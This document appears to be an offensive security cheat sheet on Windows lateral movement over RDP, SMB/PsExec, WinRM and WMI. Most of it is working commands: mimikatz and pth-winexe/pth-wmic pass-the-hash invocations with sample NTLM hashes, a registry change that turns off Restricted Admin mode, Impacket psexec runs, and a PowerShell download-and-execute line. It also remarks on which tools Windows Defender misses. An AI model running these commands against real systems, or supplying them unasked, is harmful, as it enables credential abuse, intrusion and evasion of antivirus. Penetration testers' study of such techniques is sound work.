

Remote access#
There are multiple ways to access machines remotely.

Remote Desktop Protocol (RDP)#
Port: 3389/TCP Tools: rdesktop, xfreerdp
Implementations#
rdesktop -g 80% 192.168.112.200
sudo aptitude install freerdp2-x11
xfreerdp /u:username /d:nameofdomain.local /p:[thehash] /v:10.1.1.1
sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
Why is it not working?#
- The user you are using must belong to the domain group Remote Desktop Users, or allow the user to to RDP to a specific host.
If you want to RDP to a host that you already control (for example if you want to RDP to your physical computer that your client has provided) and you do not belong to the domain group Remote Desktop Users you can allow your domain user to RDP to your computer by doing the following:
Go to:
system properties / advanced
Fjärrsessioner
Välj användare (Select your user)
Unclick "Tillåt bara bara anslutningar som använder ..."
- It might be that the computer you are trying to access
Restricted Admin modedisabled. This means that you can't use PTH to RDP to it. But if you have a shell you can just enable it, like this:
First you create a new shell as the user you are impersonating.
mimikatz.exe "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
After that you just create a new powershell session on your target machine, and then you disable the restriction, like the follwing:
Enter-PSSession -Computer <Target>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
Server Message Block (SMB)#
Port: 445/TCP, 135/TCP, High Random Port
Tools: Impacket, Metasploit, SysInternals,
There are various tools that leverage the SMB protocol together with RPC to remotely interact with a computer, the most famous is PsExec included in SysInternals. In order to use the technique the user must either be a domain user with local administrator permission, or be the local user Administrator.
The best tool to use is PsExec.py by Impacket, for e few reasons: it can speak SMBv2, it is not caught by Windows Defender, it can be used by pass the hash.
Most implementations work like this:
1. It mounts the share admin$.
2. Adds an executable there.
3. Creates a new service using Service Control Manager (SCM), and link that to the executable.
4. Starts the service.
Implementations#
There are many implementations of this technique.
Impacket
psexec.py hackdomain/pelle@192.168.66.88
psexec.py Administrator@192.168.66.88
psexec.py -hashes 00000000000000000000000000000000:88e4d9fabaecf3dec18dd80905521b29 user@192.168.66.88
smbexec.py evilcorp.local/philip@192.168.77.12
Metasploit PsExec_psh
The metasploti-module exploit/windows/smb/psexec_psh creates a service, but instead of uploading an executable to disk the service is started with a powershell command, something like this:
powershell.exe IEX (new-object Net.WebClient).DownloadString("http://...script.ps1"); invoke-thescript
Metasploit psexec
Otherwise you can also use metasploit exploit windows/smb/psexec but it can't hand ÅÄÖ.
SysInternals / PsExec.exe
psexec.exe \\192.11.11.11 -u Administratör cmd.exe
WinEXE / PTH-WinEXE
winexe is a linux-port of Sysinternals PsExec. pth-winexe just adds the pass-the-hash function.
Can be accessed from kali repo with: sudo apt-get install passing-the-hash
winexe --uninstall --user evilcorp.local/philip //192.168.77.12 "cmd.exe"
pth-winexe --uninstall--user evilcorp.local/philip //192.168.77.12 "cmd.exe"
# To escalate to system
winexe --uninstall --system --user evilcorp.local/philip //192.168.77.12 "cmd.exe"
pth-winexe --uninstall --system --user evilcorp.local/philip //192.168.77.12 "cmd.exe"
Why is it not working?#
Access Denied
If you try to use PsExec, but when you do you get the response Access Denied, the most likely scenario is that the following registry key is set:
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
This blocks local admin users with the User Account Control (UAC) security mechanism.
Share is not writable
If you try to authenticate using a local account that belongs to the Administrators group you might get the error below. This is because a non-default local administrator account can't write to ADMIN$.
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
SMBv1 is disabled
If you use winexe against a windows 10 machine, you might get this error ERROR: Failed to open connection - NT_STATUS_CONNECTION_RESET. This is most likely because winexe is using SMBv1, which is disabled by default on Windows 10.
Anti-virus
It might be that the payload gets caught by anti-virus. Metasploits exploit/windows/smb/psexec_psh, and exploit/windows/smb/psexec both get caught by windows-defender, for example.
Not a true admin account
Local admin accounts (that are not the builtin Administrator accounts) can't use PSEXEC because since Windows patched that. But the default 500 Administrator always can.
WinRM / Windows Remote Managements#
Port: 5985/TCP/HTTP, 5986/TCP/HTTPS
Tools: WinRM, Enter-PSSession, Invoke-Command
First let's try to understand the common terminology.
- WinRM: Windows Remote Management, is Microsoft’s implementation of the WS-Management protocol
- WS-Management: Web Services-Management, is an open standard that is based on SOAP messages to remotely exchange messaging data
- WinRS: Windows Remote Shell is a function of WinRM and is used to create a shell remotely on a Windows host and execute commands. This is usually what most open source libraries that claim WinRM support work with
- PSRP: PowerShell Remoting Protocol is a separate protocol that runs over WinRM, this is the protocol that is used when executing a command with
Invoke-CommandorEnter-PSSessionand has some differences with WinRS
Implementations#
The following are some tools that use WinRM.
PowerShell PSRemoting
New-PSSession -ComputerName <computername> -Credential (Get-Credential)
Enter-PSSession <host> -Credential <domain>\<user>
Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}
# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)
# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
$SecPassword = ConvertTo-SecureString 'supersecretpassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\dfm.a', $SecPassword)
Connect-WSMan -Credential $Cred -ComputerName targetmachine
Why is it not working?#
No WinRM server is running
If you have access to the computer you can enable WinRM. This is probably not something you want to do. Because by default I think it will go over HTTP, and you will not want to authenticate over HTTP. But FYI this is how it is done:
winrm quickconfig
Enable-PSRemoting
WMI / Windows Management Instruments / WMIC#
WMI: Windows Management Instruments WMIC: Windows Management Instruments Command-line
Ports: 135 (Default. DCOM)
Port: 5986 (if WinRM is used)
WMI can be used locally. But from an attackers perspective is how we can use it remotley, over the network. When used over the network two protocols are used: WinRM and DCOM. WMI is based on a client-server model. There are many different clients, the following are some native windows clients:
- wmic.exe
- PowerShell (A number of cmdlets can be used)
- VBScript
- JScript
- wbemtest.exe
- C/C++ via COM
- winrm.exe
- winrs.exe
The server is:
- WMIService (WINmgmt)
DCOM: Distributed Component Object Model, has been the default protocol used by WMI. It runs on port 135, subsequent data is transfered over randomly selected tcp port. All the windows built-in cmdlets and methods use DCOM as the default protocol. WinRM: WinRM has superseded DCOM as the default protocol for remote WMI communication.
There are usually two methods to achieve code execution with WMI, those are: Win32_Process Create method and event consumers. So what most hacking tools for lateral movement do is to create a new process and create cmd for example.
Implementations#
Impacket#
wmiexec
pth-wmis#
sudo apt-get install passing-the-hash
pth-wmis
root@Kali:~# pth-wmic -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "select Name from Win32_UserAccount"
root@Kali:~# pth-wims -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "cmd.exe /c whoami > c:\temp\result.txt"
root@Kali:~# pth-smbclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25/c$
root@Kali:~# pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25
Powershell Empire#
Invoke_wmi
WMIC#
Spawning a new process on the target system 10.0.0.6 from another compromised system 10.0.0.2:
wmic /node:10.0.0.6 /user:administrator process call create "cmd.exe /c calc"
Why is it not working?#
Check the port Is port 135 open on the target?